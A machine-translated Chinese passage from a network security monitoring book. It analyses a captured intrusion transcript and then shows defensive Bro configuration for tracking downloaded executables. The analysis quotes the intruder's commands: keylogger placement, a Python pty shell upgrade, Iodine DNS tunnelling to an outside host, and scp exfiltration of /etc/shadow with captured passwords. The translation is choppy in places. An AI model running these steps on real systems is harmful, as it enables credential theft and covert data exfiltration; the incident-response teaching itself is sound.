SRC: drwx------ 15 ubu32 ubu32 4096 3 月 16 日 06:29 .cache

SRC: drwxrwxr-x 3 ubu32 ubu32 4096 3 月 15 日 08:52 .compiz-1

SRC: drwx------ 11 ubu32 ubu32 4096 3 月 16 日 09:34 .config

SRC: drwx------ 3 ubu32 ubu32 4096 3 月 8 日 21:34 .dbus

SRC: drwxr-xr-x 2 ubu32 ubu32 4096 3 月 8 日 21:34 Desktop

SRC: -rw-r--r-- 1 ubu32 ubu32 26 3 月 16 日 09:08 .dmrc

SRC: drwxr-xr-x 2 ubu32 ubu32 4096 3 月 8 日 21:34 Documents

*列表 11-15：ls -al 命令*

下一个命令，mv keylog.sh .pulse，显示了入侵者将他的

键盘记录器脚本被移动到 *.pulse* 目录，如列表 11-16 所示。接下来，他将用户权限更改为 rwx，表示读写执行权限。

DST: ................core_channel_write....)....64553530986314682019983298603129........2......

.....4**mv keylog.sh .pulse**

DST: ................core_channel_write....)....60405588103478885840826252268236........2......

.....4chmod u=**rwx** keylog.sh

DST: ............

SRC: .

SRC: ..d............core_channel_write....)....60405588103478885840826252268236...............

..........

*列表 11-16：* mv keylog.sh .pulse 命令和 rxw 权限*

在这里，入侵者似乎执行了他的 *keylog.sh* 脚本。 (输出来自

在 11-17 列表中的脚本后续内容。) 这个脚本给了入侵者一个机会

选择键盘进行监控，并提醒他查看 */tmp/.xkey.log*

结果目录。

DST: ...x............core_channel_write....)....75957044127671614064150081298305........2......

.....4\. **/keylog.sh**

DST: ............

SRC: .

SRC: ..d............core_channel_write....)....75957044127671614064150081298305...............

..........

SRC: .

SRC: ..............2...........4... Virtual core pointer .id=2.[master pointer (3)]

**254** 第十一章

[www.it-ebooks.info](http://www.it-ebooks.info/)

SRC: ... ... Virtual core XTEST pointer .id=4.[slave pointer (2)]

SRC: ... ... VMware VMware Virtual USB Mouse .id=7.[slave pointer (2)]

SRC: ... ... VMware VMware Virtual USB Mouse .id=8.[slave pointer (2)]

SRC: ... ... ImPS/2 Generic Wheel Mouse .id=10.[slave pointer (2)]

SRC: ... Virtual core keyboard .id=3.[master keyboard (2)]

SRC: ... Virtual core XTEST keyboard .id=5.[slave keyboard (3)]

SRC: ... Power Button .id=6.[slave keyboard (3)]

SRC: ... AT Translated Set 2 keyboard .id=9.[slave keyboard (3)]

SRC: ....................core_channel_write....)....SRREVPPXSOANPPYWFQHSVCNMFFBJBMMJ....u......

.....2...........4KBD ID ?

SRC: ....................core_channel_write....)....NBVSIORNAUEQNTEQFFFCJMHXSAEMNQNA.

DST: ...n............core_channel_write....)....45042497071271683260243072775318........2.....

..

DST: ...49

DST: ............

SRC: .

SRC: ..d............core_channel_write....)....45042497071271683260243072775318...............

..........

SRC: .

SRC: ..............2...........4**键盘记录可以从 /tmp/.xkey.log 下载**

SRC: 使用 meterpreter 下载功能

SRC: 按 CTLR+C 退出此会话，键盘记录器将在后台运行

*列表 11-17：* keylog .sh *脚本和提醒*

接下来，我们看到证据表明入侵者将名为

*iodine_0.6.0~rc1-7_i386.deb* 从 203.0.113.15 传输到 172.16.0.37，如下所示

列表 11-18。这似乎是 Iodine 隐蔽工具的 Debian 包

DNS 隧道工具。入侵者肯定使用了这个工具来创建成百上千个

前面讨论过的成千上万条异常的 DNS 条目。

DST: ................core_channel_open....)....32392496134731212115385138997235........3std api_fs_file........6...................$.... **iodine_0.6.0~rc1-7_i386.deb**.........wbb.

*列表 11-18：* iodine_0 .6 .0~rc1-7_i386 .deb *参考*

***改进 Shell***

下一条命令很有趣，如列表 11-19 所示。通过运行

python -c 'import pty;pty.spawn("/bin/bash")'，入侵者通过使用 Python 启动 Bash shell 改进了他在受害者系统上使用的 shell。

为了启动 Bash shell，他创建了一个可以提示用户并接受

回复。（当入侵者使用 Meterpreter 打开 shell 时，他可能没有

使得他可以在被提示时输入密码。这是一个问题

当尝试运行 sudo 或回答任何其他提示用户的命令时。)

DST: ................core_channel_write....)....07078092619529470178701062926304........2......

.6...4**python -c 'import pty;pty.spawn("/bin/bash")'**

*清单 11-19：Bash shell 启动*

客户端妥协 **255**

[www.it-ebooks.info](http://www.it-ebooks.info/)

继续查看转录内容可以揭示 Bash shell 的原因。

如清单 11-20 所示，入侵者使用 scp 通过 SSH 传输

*iodine_0.6.0~rc1-7_i386.deb* 软件包从 172.16.0.37 传输到 10.0.0.99，用户为 ubu32\。

入侵者是如何获取登录 10.0.0.99 的密码的？他是否进行了暴力破解？

他很可能通过键盘记录器捕获了它。

DST: ................core_channel_write....)....28332839019310295629231957979483........2......

.=...4**scp** **iodine_0.6.0~rc1-7_i386.deb** **ubu32@10.0.0.99:/tmp**

*清单 11-20：* iodine_0.6.0~rc1-7_i386.deb *软件包的传输*

***总结阶段 1***

此时，入侵者已经采取了几个步骤，涉及一个受害者的系统-

系统，如图 11-17 所总结。他诱使用户点击一个恶意

Twitter 上发布的链接指向一个涉及 203.0.113.15 的 URL，

受害者 172.16.0.37 访问了入侵者系统上的 Web 服务器。

那个恶意 Web 服务器提供的代码利用了一个易受攻击的 Java

在 172.16.0.37 上的实例。通过 Java 漏洞传送的有效负载导致

受害者再次连接 203.0.113.15 以获取更多攻击软件-

从入侵者处获取恶意软件。

1\. 受害者点击了 Twitter 上的恶意链接。

社交媒体或其他通讯工具

受害者

Twitter

172.16.0.37

2\. 受害者的 Web 浏览器连接到

203.0.113.15:8080/healthcarenews.

网络连接

入侵者 1

受害者

203.0.113.15

172.16.0.37

3\. 攻击方法利用了易受攻击的 Java

被利用

软件通过受害者系统执行代码。

4\. 恶意代码导致受害者回溯到入侵者处

这样入侵者就能获取更多恶意软件。

网络连接

入侵者 1

受害者

203.0.113.15

172.16.0.37

*图 11-17：客户端妥协阶段 1 的总结*

**256** 第十一章

[www.it-ebooks.info](http://www.it-ebooks.info/)

***转向第二个受害者***

接下来，如清单 11-21 所示，入侵者似乎正在连接

从第一个受害者 172.16.0.37 通过 SSH 以 ubu32 用户身份传输到第二个受害者，

10.0.0.99\. 接着在 10.0.0.99 上显示登录提示，另一个 Linux

运行相同内核的系统。它将自己标识为 Ubuntu 系统

12.0.4.2 LTS 版本。

DST: ................core_channel_write....)....21495256091063571385331835436694........2......

.....4**ssh ubu32@10.0.0.99**

SRC: ..U...........2...........4**欢迎使用 Ubuntu 12.04.2 LTS** (GNU/Linux 3.5.0-25-generic i686) SRC:

SRC: * 文档：https://help.ubuntu.com/

SRC:

SRC: 0 个软件包可以更新。

SRC: 0 个更新是安全更新。

*列表 11-21: Ubuntu 连接到另一个受害者*

通过运行 sudo bash，如列表 11-22 所示，攻击者提升了

他获得了 root 权限。

DST: ...v............core_channel_write....)....29459743353766825927232004106327........2......

.....4sudo bash

DST: ...........

DST:

SRC: .

SRC: ..d............core_channel_write....)....29459743353766825927232004106327............

SRC: ............

SRC: ...w...........2...........4**sudo bash**

SRC: ....................core_channel_write....)....UJUHVDEWIYIKWPCUMRTWODZUIDRXEMKG.

SRC: .

SRC: ..............2.......#...4[sudo] ubu32 的密码：....................core_channel_

写入....)....JTCKKYYZSXEFTWGOEWDZKWHCOLJYUWZG.

DST: ...v............core_channel_write....)....56755805437825017718244048581240........2......

.....4wonderubu

*列表 11-22: 使用 sudo bash 提升权限*

***安装隐蔽隧道***

作为 root，攻击者现在通过 dpkg 安装 Iodine DNS 隐蔽隧道工具，

dpkg -i iodine_0.6.0~rc1-7_i386.deb，如列表 11-23 所示\。

DST: ................core_channel_write....)....64642638366982677090891088802167........2......

.,...4**dpkg -i iodine_0.6.0~rc1-7_i386.deb**

*列表 11-23: 安装 Iodine DNS 隐蔽隧道工具*

客户端侧妥协 **257**

[www.it-ebooks.info](http://www.it-ebooks.info/)

接下来，我们看到攻击者使用命令 iodine -r 203.0.113.8 practicalnsm.com 启动 Iodine 工具，如列表 11-24 所示。他正在启动 Iodine 客户端，并将其指向位于 203.0.113.8 的服务器，通过 DNS 流量

使用 *practicalnsm.com* 域名。（我想知道是谁造成了这次入侵？）

因为攻击者以这种方式启动 Iodine，所以看起来像是受害者，

10.0.0.99 将直接与位于 203.0.113.8 的 Iodine 服务器进行通信\。

（在运行 Iodine 时，不需要与 DNS 服务器进行通信，

以这种方式运行，但隐蔽流量仍然会表现为 DNS。)

DST: ................core_channel_write....)....54112282595894012391779534721588........2......

./...4**iodine -r** **203.0.113.8 practicalnsm.com**

*列表 11-24: 启动 Iodine 工具*

列表 11-25 很可能显示了从 Iodine 服务器收到的输出。我们

可以看到服务器 IP 地址是 10.10.0.1，这告诉我们存在一个 VPN

可以看到，10.0.0.99 和 203.0.113.8 之间建立了一条通道。现在，这两台计算机

可以通过 IP 地址（如 10.10.0.1）彼此通信。

服务器权限，而不是 203.0.113.8\. （Iodine 工具封装了攻击者的

DNS 流量中的通信。)

SRC: ....................core_channel_write....)....

WXQSRQPTXGMIWNZFNDHOHWTCFEJDDKUF................2.......:...4**服务器隧道 IP 是 10.10.0.1**

*列表 11-25: 来自 Iodine 服务器的输出*

为了测试连接性，入侵者使用 ping 工具联系 10.10.0.1，

隧道另一端的 IP 地址，如列表 11-26 所示。

远程系统回复，隧道工作正常。NSM 传感器将无法

看到 ICMP 流量，但它将开始看到奇怪的 DNS 活动。

SRC: ...............2...........4**ping -c** 3 **10.10.0.1**

SRC: ....................core_channel_write....)....BGCEPMSGLBOFCPOHKXSKOAMVWVCRDKFU.

SRC: .

SRC: ..............2.......:...4**PING 10.10.0.1 (10.10.0.1) 56(84) 字节的数据。**

SRC: ...........2........core_channel_write....)....GSFTPZWPJXAREZEXEEALKFUBCUSRLPEK.

SRC: .

SRC: ..............2.......A...464 字节来自 10.10.0.1: icmp_req=1 ttl=64 时间=2.07 毫秒 SRC: ...........9........core_channel_write....)....MUNJGYKCWWYETWKFZOWTIVKVAQNLKNCQ.

SRC: .

SRC: ..............2.......A...464 字节来自 10.10.0.1: icmp_req=2 ttl=64 时间=1.15 毫秒 SRC: ...........9........core_channel_write....)....JLCWSBHPCCBTZFUVTJUYBYQVUOXEZPPF.

SRC: .

SRC: ..Q...........2...........464 字节来自 10.10.0.1: icmp_req=3 ttl=64 时间=1.12 毫秒 SRC:

SRC: --- 10.10.0.1 ping 统计 ---

SRC: 3 个数据包传输，3 个接收，0% 丢包，时间 2003 毫秒

SRC: rtt 最小/平均/最大/偏差 = 1.128/1.453/2.073/0.439 毫秒

*列表 11-26：隧道连接性 Ping 测试*

**258** 第十一章

[www.it-ebooks.info](http://www.it-ebooks.info/)

***枚举受害者***

现在，入侵者开始枚举受害者。他打印出以下内容：

该 */etc/shadow* 文件，其中包含密码哈希值。列表 11-27 显示了

该文件的一部分。

SRC: root@intubu32:~# ....................core_channel_write....)....

LBTPOVHNRBVNFEXWLPWAAXXSYKEYJQMW.

DST: ...|............core_channel_write....)....76703429583552950498014447957238........2......

.....4**cat /etc/shadow**

DST: ............

SRC: .

SRC: ..d............core_channel_write....)....76703429583552950498014447957238...............

..........

SRC: ...............2...........4cat /etc/shadow

SRC: root:!:15773:0:99999:7:::

SRC: daemon:*:15749:0:99999:7:::

SRC: bin:*:15749:0:99999:7:::

SRC: sys:*:15749:0:99999:7:::

SRC: sync:*:15749:0:99999:7:::

SRC: games:*:15749:0:99999:7:::

SRC: man:*:15749:0:99999:7:::

SRC: lp:*:15749:0:99999:7:::

*列表 11-27：* /etc/shadow *文件的内容*

如列表 11-28 所示，入侵者使用 scp 命令复制 */etc/shadow*

文件传输到 10.10.0.1，即隐蔽通道另一端的服务器。

他以用户 raybourque 登录，并将文件复制到 Ray 的主目录。

他的密码是 Bru1ns。我喜欢这个人。（注意，通过使用 scp，传输是

加密的 DNS 隐蔽通道中的内容。)

SRC: ..............2.......@...4**scp /etc/shadow raybourque@10.10.0.1:/home/raybourque/**

DST: ...s............core_channel_write....)....12979532812626493965961252667084........2......

.....4**Bru1ns**

SRC: **shadow** 100% 1121 1.1KB/s 00:00

*列表 11-28：复制* /etc/shadow *文件*

接下来，入侵者创建整个硬盘的递归目录列表

将驱动器内容放入名为*intubu32.ls-alR.txt*的文件中，如清单 11-29 所示。

DST: ................core_channel_write....)....67917540968083609031577076644751........2....

...(...4**ls -alR / > intubu32.ls-alR.txt**

*清单 11-29: 创建硬盘的递归目录列表*

在创建文件后，入侵者再次使用 scp 将其传输到他的

作为用户 raybourque 登录的服务器，如清单 11-30 所示。

客户端侧妥协 **259**

[www.it-ebooks.info](http://www.it-ebooks.info/)

SRC: ..............2...........4**scp intubu32.ls-alR.txt raybourque@10.10.0.1:/home/raybourque** **SRC: <32.ls-alR.txt** raybourque@10.10.0.1:/home/raybourque

........................./

SRC: ....................core_channel_write....)....USSCEEVDBIGFIRWOSESCHCUWSDAZFPJS.

SRC: .

SRC: ..u...........2...........4 密码:....................core_channel_write....)....

GUTYMDXFGXQWFPYSCFKMNPZTQEKYHWYC.

DST: ...s............core_channel_write....)....56606769242836968330355877691782........2......

.....4Bru1ns

*清单 11-30: 将硬盘文件列表传输到入侵者的服务器*

这就是转录的结束。

***总结阶段 2***

在这次入侵的后半段，入侵者仍然通过

203.0.113.15，使用被盗凭证通过 SSH 从 172.16.0.37 连接

到 10.0.0.9。他将一个 DNS 隐蔽通道工具复制到第二个受害者的系统中，并

将其配置为与新的入侵者系统 203.0.113.8 通信。入侵者

激活了隐蔽通道，我们看到它通过 DNS 进行通信

请求和回复。在隐蔽通道内，入侵者复制了敏感数据

从第二个受害者 10.0.0.9 获取的数据，图 11-18 总结了

这些操作。

1\. 入侵者从受害者 1 转向受害者 2\。

网络连接

入侵者 1

受害者 1

203.0.113.15

172.16.0.37

受害者 2

10.0.0.99

2\. 入侵者安装 DNS 隐蔽通道工具并创建

通道到第二个入侵者系统（入侵者 2）。

网络连接

入侵者 2

受害者 2

203.0.113.8

10.0.0.99

3\. 在隐蔽通道内，入侵者复制敏感

从受害者 2 到入侵者 2 的数据\。

网络连接

入侵者 2

受害者 2

203.0.113.8

10.0.0.99

*图 11-18: 服务器端妥协的阶段 2 总结*

**260** 第十一章

[www.it-ebooks.info](http://www.it-ebooks.info/)

**结论**

我们对本章示例的回顾显示，入侵者非常

原始受害者 172.16.0.37 仍然活跃，并使用从

从该系统转向 10.0.0.99。初步审查 NSM 数据后，

概述了入侵的整体情况，但通过检查命令和

控制通道帮助填补了一些空白。感谢 NSM 平台

捕获完整的数据包，Vivian’s Pets CIRT 知道发生了什么

到其网络中的两个系统。

这个客户端侧的妥协示例始于一个无辜的

在 Twitter 上搜索并得出结论，两个被妥协的机器和

隐蔽通道将敏感信息传输到公司外部。我们的

网络中心的方法回答了很多关于课程的疑问

入侵，但也表明某些方面，CIRT 确实有些运气。如果

203.0.113.15 和 172.16.0.37 之间的指挥控制通道已经

已加密，CIRT 将无法了解关键细节

入侵。因此，进行主机中心的取证和

如果可能的话，准备好调查技巧，但这是另一个话题，适合其他人

别人的书！

说到推特，分析师们确实有一些关于

攻击的来源。威胁代理是可能做出错误选择的人员

选择。防御者有时可以利用这些错误选择来更好地

理解威胁并保护网络。在这个入侵的案例中，

在隐蔽通道消失几小时后，图 11-19 中显示的推文

出现了。请注意图像底部推文的文字

出现。

*图 11-19：Callbackpnsm 的最后一条推文*

客户端入侵 **261**

[www.it-ebooks.info](http://www.it-ebooks.info/)

这条推文是文本和图片的组合。推文写着

“@ubu32pnsm 感谢你查看医疗更新。之一

我们在#获胜。 pic.twitter.com/mD4y6eIiqF。”图中显示的是

图 11-19 显示的是 Ubuntu 桌面的屏幕截图；实际上，它

显示受害者用户的系统。她以用户 Ubu32pnsm 身份登录到推特。

打开了两个 Firefox 浏览器标签。第二个标签显示了部分 URL

用于虚假的 *healthcarenews* 网站 203.0.113.15 上的攻击者认为

他是个有趣的人，但像这样的个性化信息可能会成为他的致命弱点。

为了不被抓住，攻击者还需要练习健全的操作

安全性很有用。

**262** 第十一章

[www.it-ebooks.info](http://www.it-ebooks.info/)

**12**

**扩展之道**

到目前为止，我们一直在使用默认设置

SO 的安装。这一章介绍了

扩展它的几种方法。你只需要编辑

一些配置文件，并下载一些

外部内容来获取更多信息，从你的 SO 设置中获得更多。

为了超越“库存”SO 安装，我们将查看三种方式

利用 Bro 套件提供的附加功能：

• 使用 Bro 记录的 MD5 哈希值与 VirusTotal 或其他

第三方分析引擎。

• 配置 Bro 从网络流量中提取二进制文件，这样你就可以

将这些文档提交给第三方分析引擎。

• 将来自 Mandiant 的 APT1 报告的外部情报与 Bro 集成

生成警报数据。

本章以一个例子结束，展示了如何利用 SO 报告和

提取了恶意二进制文件的下载。

[www.it-ebooks.info](http://www.it-ebooks.info/)

**使用 Bro 来跟踪可执行文件**

在尝试保护企业时，CIRT 通过了解哪些

用户下载的可执行文件。通常，这些 exe

可执行文件是人们需要完成工作的一些无害工具或软件包，但

有时是恶意软件。Bro 可以帮助你发现这类

以便保护用户免受下载的可执行文件可能带来的危害。

***使用 Bro 对下载的可执行文件进行哈希计算***

默认情况下，SO 附带的 Bro 版本会计算每个可执行文件的 MD5 哈希（a

文件内容的加密表示）对于每个下载的可执行文件，

通过 HTTP 加载。这些哈希值帮助我们跟踪可执行文件

用户下载的内容。例如，12-1 列表展示了 Bro 如何跟踪执行-

可下载的文件。*notice.log*文件记录了 Bro 生成的哈希值数据-

Bro 会记录它看到的通过 HTTP 传输的可执行文件。

2013-04-12T13:33:47+0000 mBNkJTlLBfa 192.168.2.108 49630 23.62.236.50 80

1 GET download.cdn.mozilla.net /pub/mozilla.org/firefox/releases/20.0.1/

win32/en-US/Firefox Setup 20.0.1.exeu http://www.mozilla.org/en-US/products/download.

html?product=firefox-20.0&os=win&lang=en-US Mozilla/5.0 (Windows NT 6.1; WOW64; rv:19.0) Gecko/20100101 Firefox/19.0 0 21036128 200 OK - -

- (空) - -- application/x-dosexecv 1e39efe30b02fd96b10785b49e23913bw

-

*列表 12-1：Bro* http.log *条目用于下载 Firefox 二进制文件*

你可以看到下载的*Firefox Setup 20.0.1.exe*，一个类型为

application/x-dosexec v，哈希值为 1e39efe30b02fd96b10785b49e23913b w。

默认情况下，Bro 会报告哈希可执行文件并写入事件日志

Bro 的*notice.log*文件，如列表 12-2 所示\。

2013-04-12T13:34:01+0000 mBNkJTlLBfa 192.168.2.108 49630 23.62.236.50

80 tcp HTTP::MD5v 192.168.2.108 1e39efe30b02fd96b10785b49e23913b http://

download.cdn.mozilla.net/pub/mozilla.org/firefox/releases/20.0.1/win32/en-US/Firefox

Setup 20.0.1.exeu 1e39efe30b02fd96b10785b49e23913bw 192.168.2.108 23.62.236.50

80 - sov-eth0-1 Notice::ACTION_LOG 6 3600.000000 F

- - - - - -- -

*列表 12-2：Bro* notice.log *条目用于 MD5 计算*

在这里，你可以看到下载的*Firefox Setup 20.0.1.exe*文件，带有 Bro 的记录-

这是一个 HTTP 请求，并且需要 MD5 哈希值 v 以及匹配-

哈希值为 1e39efe30b02fd96b10785b49e23913b w。你可以使用第三方来源

通过哈希值获取更多关于此下载的信息。

***提交哈希值到 VirusTotal***

VirusTotal（*http://www.virustotal.com/*）是一个流行的在线资源，用于

进一步了解二进制文件。除了提交实际文件外，用户

也可以将二进制文件的哈希值提交到 VirusTotal，查看这些哈希值是否

**264** 第十二章

[www.it-ebooks.info](http://www.it-ebooks.info/)



在 VirusTotal 数据库中出现的。如果之前的用户已经上传

如果将具有相同哈希值的二进制文件提交给 VirusTotal，搜索该哈希值应该

揭示 VirusTotal 对之前提交的二进制文件的了解。

为了看到这个功能的实际效果，我们将提交 Bro 记录的哈希值，

来自 12-1 列表，如图 12-1 所示\。

*图 12-1：提交观察到的 MD5 哈希值到 VirusTotal*

几秒钟内，我们可以看到如图 12-2 所示的结果\。

*图 12-2：VirusTotal 对提交的 MD5 哈希值的结果*

VirusTotal 为此哈希值找到了匹配项（请注意四个角），且没有

杀毒引擎已将该二进制文件标记为恶意，如下所示

检测比率字段。

“附加信息”标签提供了更多关于二进制文件的数据

VirusTotal 已经看到匹配的 MD5 哈希，如清单 12-3 所示。

首次由 VirusTotal 看到

2013-04-10 22:10:23 UTC（6 天 20 小时前）

最后由 VirusTotal 看到

2013-04-17 15:29:15 UTC（3 小时 8 分钟前）

文件名（最多 25 个）

**Firefox_Setup_20.0.1.exe**

**Firefox Setup 20.0.1.exe**

扩展 SO **265**

[www.it-ebooks.info](http://www.it-ebooks.info/)

test.exe

7zS.sfx.exe

Firefox_Setup_20.0.1GB32.exe

TtfjHao4.exe.part

**Firefox_Setup_20.0.1.exe**

7zS.sfx

file-5362262_exe

Firefox%20Setup%2020.0.1.exe

*清单 12-3：从 VirusTotal 获取的首次见到、最后见到和文件名信息*

如加粗部分所示，引用 Firefox 安装程序的名称（*Firefox_*

*Setup_20.0.1.exe*）与我们在 Bro 日志中观察到的二进制文件相同，

但是其他文件，比如 file-5362262_exe，完全不同。

这个分析有帮助，但并不具有决定性。最好能有

二进制文件本身的副本，而不仅仅是它们的哈希值。我们可以做更多

分析与原始文物的配合使用。

**使用 bro 从流量中提取二进制文件**

默认情况下，Bro 使用 SO 记录通过 HTTP 下载的二进制文件的 MD5 哈希值

HTTP，但它不会提取二进制文件并将其保存到磁盘。它很简单

配置 Bro 以采取这些措施，但我们确实需要小心

需要小心，不要让传感器因为提取的二进制文件而超负荷。为了减少这种情况

潜在问题，我们将告诉 Bro 提取下载的 Windows 可执行文件

仅通过 HTTP 和 FTP。

***配置 Bro 提取流量中的二进制文件***

Bro 检查流量并根据默认安装中附带的*策略脚本*生成日志。策略脚本是分析人员使用的*Bro*

*网络编程语言*（由 Liam Randall 推广的术语）来告知

告诉 Bro 引擎该如何处理它看到的流量。

Bro 通过它创建的日志文件和消息报告它所发现的内容

使用其*通知框架*。（建议你保留默认脚本

独立使用，并且对在*/opt/bro/share/*中找到的策略脚本进行更改

*bro/site/* 目录。）

重新配置 Bro，以提取通过 Windows 下载的可执行文件

HTTP 和 FTP，我们首先通过创建一个地方来存储提取的内容

这个命令：

$ **sudo mkdir -p /nsm/bro/extracted/http/ /nsm/bro/extracted/ftp/**

接下来，我们创建 *local.bro* 策略脚本的副本以备份。

$ **sudo cp /opt/bro/share/bro/site/local.bro** **/opt/bro/share/bro/site/local.bro.orig** **266** 第十二章

[www.it-ebooks.info](http://www.it-ebooks.info/)

现在我们编辑 *local.bro* 文件。（我使用的是 vi 编辑器，但可以使用你喜欢的任何编辑器，例如与 SO 一起捆绑的 Leafpad 程序。）

$ **sudo vi /opt/bro/share/bro/site/local.bro**

清单 12-4 显示了需要添加到 *local.bro* 文件底部的内容。

# 第四章：提取 EXE 文件

重定义 HTTP::extract_file_types += /application\/x-dosexec/;u

重定义 FTP::extract_file_types += /application\/x-dosexec/;v

# 提取文件到 /nsm/bro/extracted/

重定义 HTTP::extraction_prefix = "/nsm/bro/extracted/http/http-item";

重定义 FTP::extraction_prefix = "/nsm/bro/extracted/ftp/ftp-file";

*列表 12-4：在本地 .bro 文件的末尾添加内容，启用 Windows 可执行文件* *提取功能，适用于 HTTP 和 FTP*

如果你希望 Bro 从简单邮件传输协议（SMTP）中提取可执行文件，

协议（SMTP）也是如此，你可以添加类似于那些行的更多内容

列表 12-4，将 HTTP 替换为 SMTP。支持从

使用相同的方法可以进行 Internet Relay Chat（IRC）。要提取

除了 Windows 可执行文件外，你还可以调整 u 和 v，使得

应用程序部分读取如下内容：

/application\/.*/;

将 x-dosexec 替换为 .* 告诉 Bro 提取它能识别的任何应用程序类型

识别。你不应在生产环境中运行这种配置

因为你可能会使传感器过载，它会尝试重建并写入每个—

这是 Bro 识别的内容。仅在处理保存的跟踪数据时使用 /application\/.*/;

在有限的流量情况下。

现在我们已经修改了 Bro 的 *local.bro* 策略脚本，让我们测试一下新的

功能。

***收集流量来测试 Bro***

当向 Bro 和你的 SO 安装添加新功能时，你应该

在提交之前，手动测试这些更改。Bro 允许你运行

策略脚本和其他功能将基于保存的流量进行测试，我们将这样做

测试它的新配置能力，从数据包中提取二进制文件。

为了提供此测试的流量，我们将下载 Windows SSH

通过 HTTP 和 FTP 客户端 PuTTY。PuTTY 网站（ *http://www.chiark*

*.greenend.org.uk/~sgtatham/putty/download.html* 提供了下载链接

通过 HTTP 下载 PuTTY（ *http://the.earth.li/~sgtatham/putty/latest/x86/putty.exe*）和 FTP（ *ftp://ftp.chiark.greenend.org.uk/users/sgtatham/putty-latest/x86/putty*）

*.exe*），这为我们提供了测试 Bro 所添加功能的方法。为了保存测试流量，我们将确定托管的两个服务器的 IP 地址

*putty .exe* 通过 HTTP（ *the.earth.li*）和 FTP（ *ftp.chiark.greenend.org.uk*），如列表 12-5 所示，使用 Linux 主机命令在终端窗口中执行。

扩展 SO **267**

[www.it-ebooks.info](http://www.it-ebooks.info/)



$ **host the.earth.li**

the.earth.li 的地址是 46.43.34.31u

the.earth.li 的 IPv6 地址是 2001:41c8:10:b1f:c0ff:ee:15:900d

the.earth.li 邮件由 10 mail.the.earth.li 处理。

$ **host ftp.chiark.greenend.org.uk**

ftp.chiark.greenend.org.uk 是 service-name.chiark.greenend.org 的别名。

uk。

service-name.chiark.greenend.org.uk 的地址是 212.13.197.229v

service-name.chiark.greenend.org.uk 邮件由 0 处理。

*列表 12-5：确定 HTTP 和 FTP 下载服务器的 IP 地址*

接下来，我们运行两个 Tcpdump 实例：一个配置为记录流量

监控与位于 46.43.34.31 的 HTTP 服务器之间的流量，另一个用于记录与

和位于 212.13.197.229 的 FTP 服务器之间的流量。确保先运行第一个命令：

在一个终端中运行命令，监控 HTTP 流量：

$ **sudo tcpdump -n -i eth0 -w http-putty.pcap -s 0 host 46.43.34.31**

在另一个终端中运行第二个命令，监控 FTP 流量：

$ **sudo tcpdump -n -i eth0 -w ftp-putty.pcap -s 0 host 212.13.197.229**
